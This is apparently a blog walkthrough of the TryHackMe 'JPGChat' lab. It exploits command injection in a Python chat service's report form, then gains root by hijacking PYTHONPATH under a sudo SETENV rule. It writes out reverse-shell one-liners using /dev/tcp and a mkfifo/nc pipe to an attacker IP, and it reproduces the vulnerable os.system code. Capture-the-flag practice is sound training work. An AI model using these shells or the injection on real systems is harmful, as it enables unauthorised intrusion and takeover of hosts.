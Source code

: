 ```yaml
---
layout: post
title: Walkthrough - JPGChat
published: true
---
```


Tags: Python3, OS, Chatting, Report.
Description: Exploiting poorly made custom chatting service written in a certain language...
Difficulty: Easy
URL: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)

* * *

## Notes

- `sudo nmap -sC -sV -sT --script vuln -O -p22,3000 10.10.237.128`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp open  tcpwrapped
```

- `telnet 10.10.237.128 3000` lets us know we can find the service sourcecode at the github.
- [https://github.com/Mozzie-jpg/JPChat](https://github.com/Mozzie-jpg/JPChat)

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

Using [REPORT] and then using `;` to end the function followed by a bash revshell `sh -i >& /dev/tcp/10.2.127.225/6666 0>&1` gets us our first shell. This shell isnt stable and doesnt seem to give us output but using `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6667 >/tmp/f` gets us a more stable shell.

* * * 

## What is the content of user.txt?

![](/assets/jpgchat01.png)

* * * 

## What is the content of root.txt?

- `sudo -l` guartentee 

```
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we only have read, access. Time to check out the source.

```
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

I then followed https://github.com/xnomas/TryHackMe-Writeups/tree/main/JPGchat because i dont know python.

```
(local) pwncat$ upload compare.py
./compare.py ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 375/375 bytes • ? • 0:00:00
[17:50:08] uploaded 375.00B in 1.96 seconds                                                                                    upload.py:76
(local) pwncat$                                                                                                                            
(remote) wes@ubuntu-xenial:/dev/shm$ ls -las
total 16
 0 drwxrwxrwt  2 root root    80 Aug 23 00:40 .
 0 drwxr-xr-x 16 root root  3560 Aug 23 00:09 ..
 4 -rw-r--r--  1 wes  wes    375 Aug 23 00:50 compare.py
12 -rw-------  1 wes  wes  12288 Aug 23 00:20 .compare.py.swp
(remote) wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm# cd /root
root@ubuntu-xenial:/root# ls -las
total 24
4 drwx------  3 root root 4096 Jan 15  2021 .
4 drwxr-xr-x 25 root root 4096 Aug 23 00:09 ..
4 -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root  305 Jan 15  2021 root.txt
4 drwx------  2 root root 4096 Jan 15  2021 .ssh
root@ubuntu-xenial:/root# cat root.txt
[REDACTED]

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
root@ubuntu-xenial:/root# 
[18:24:02] warning: 10.10.225.187:58648: connection reset   
```

* * * 


